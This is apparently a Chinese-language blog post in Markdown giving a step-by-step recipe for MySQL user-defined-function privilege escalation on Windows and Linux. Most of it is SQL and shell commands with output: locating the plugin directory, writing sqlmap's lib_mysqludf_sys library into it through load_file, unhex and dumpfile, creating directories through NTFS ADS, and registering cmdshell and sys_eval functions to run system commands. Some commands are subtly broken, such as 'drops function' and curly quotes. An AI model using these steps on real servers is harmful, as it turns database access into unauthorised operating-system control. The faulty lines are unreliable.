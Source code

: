 ```yaml
---
layout: post
title: MySQL UDF Rights
date: 2019-9-26
categories: blog
tags: [WEB]
description: 文艺的流氓。
---
```


### 1.UDF是什么

UDF（user defined function）用户自定义函数,是MySQL的一个扩展接口，称为用户自定义函数,是用来拓展MySQL的技术手段，用户通过自定义函数来实现在MySQL中无法实现的功能。文件后缀为`.dll`,常用c语言编写。可以执行系统命令,将MySQL账号root转化为系统system权限。

### 2.windows下udf提权的条件

1. 如果MySQL的版本大于5.1，`udf.dll`文件必须放在MySQL的安装目录`lib\plugin`文件夹下
2. 如果MySQL的版本小于5.1，`udf.dll`文件在`windows server 2003`下放置在`c:\windows\system32`,在`windows server 2000` 下放在`c:\winnt\system32`目录
3. 掌握MySQL数据库账户,从拥有对MySQL有增删改查权限。如果是root用户就更好了
4. 拥有可以将`udf.dll`写入相应目录的权限

### 3.提权方法

1. 获取MySQL的安装路径。使用`show variables like '%plugins%';`
2. 获取MySQL数据库的版本`select version();`
3. sqlmap中有现在的`udf`文件。分别是32位和64位的。需要选择对应的版本否则就会报错。版本是MySQL的版本不是window的版本.除了MySQL的`udf`文件还有`postgresql`

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926170548.png)

4. postgresql 也是同样分为window和Linux

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926170629.png)

5. **导出路径**

   1. MySQL版本小于5.1

   ```txt
   C:\\Windows\system32\udf.dll
   ```

   2. MySQL版本大于5.1

   ```txt
   MySQL安装路径\lib\plugin\udf.dll
   ```

   3. 由于该目录默认不存在，需要利用创建这个目录，然后将`udf.dll`导出到该目录。

6. 创建libplugin方法：

   - 利用WebShell创建
   - 利用NTFS ADS流创建目录：

   ```sql
   select @@basedir; //查找到mysql的目录 
    
   select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib::$INDEX_ALLOCATION'; //利用NTFS ADS创建lib目录 
    
   select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib\\plugin::$INDEX_ALLOCATION';//利用NTFS ADS创建plugin目录
   ```

7. 创建cmdshell函数

   ```sql
   create function cmdshell returns string soname ‘udf.dll’; 
   ```

8. 执行命令

   ```sql
   select cmdshell(‘whoami’);
   ```

9. 删除函数

   ```sql
   drops function cmdshell;//将函数删除
   ```

10. 导出的SQL语句

    ```sql
    create table a (cmd LONGBLOB);
    
    insert into a (cmd) values (hex(load_file('D:\\Program Files\\MySQL\\MySQL Server 5.0\\Lib\\Plugin\\lib_mysqludf_sys.dll'))); 
    
    SELECT unhex(cmd) FROM a INTO DUMPFILE 'c:\\windows\\system32\\udf.dll';
    
    create function sys_eval returns string soname 'udf.dll'
    
    select sys_eval('ipconfig');
    ```



### 4.Linux下的提权

**要求**

1. 在MySQL库下必须有func表，并且在‑‑skip‑grant‑tables开启的情况下，UDF会被禁止；
2. SQL具有权限，root权限
3. 导出目录可写

**获取插件路径**

```sql
mysql> show variables like "%plugin%";
+---------------+-----------------------+
| Variable_name | Value         |
+---------------+-----------------------+
| plugin_dir  | /usr/lib/mysql/plugin |
+---------------+-----------------------+
1 row in set (0.00 sec)
```



**获取udf文件**

```shell
root@kali:/pentest/sqlmap/udf/mysql# ls
linux windows
root@kali:/pentest/sqlmap/udf/mysql/linux# ls
32 64
root@kali:/pentest/sqlmap/udf/mysql/linux/64# ls
lib_mysqludf_sys.so
```

**在SQL中加载库文件**

```sql
mysql> select hex(load_file('/pentest/database/sqlmap/udf/mysql/linux/64/lib_mysqludf_sys.so')) into outfile '/tmp/udf.txt';
Query OK, 1 row affected (0.04 sec)
```

**写入udf库到MySQL目录**

```sql
mysql> select unhex('7F454C46020...') into dumpfile '/usr/lib/mysql/plugin/mysqludf.so';
Query OK, 1 row affected (0.04 sec)
```

**加载函数执行命令**

```sql
mysql> create function sys_eval returns string soname "mysqludf.so";
Query OK, 0 rows affected (0.14 sec)
  
mysql> select sys_eval('whoami');
+--------------------+
| sys_eval('whoami') |
+--------------------+
| mysql       |
+--------------------+
1 row in set (0.04 sec)
  
mysql> select * from mysql.func;
+----------+-----+-------------+----------+
| name   | ret | dl     | type   |
+----------+-----+-------------+----------+
| sys_eval |  0 | mysqludf.so | function |
+----------+-----+-------------+----------+
1 row in set
```



### 总结

MySQL提权总的来说还是需要有条件限制的。但是在某些情况下这种提权方法往往是最有效的。


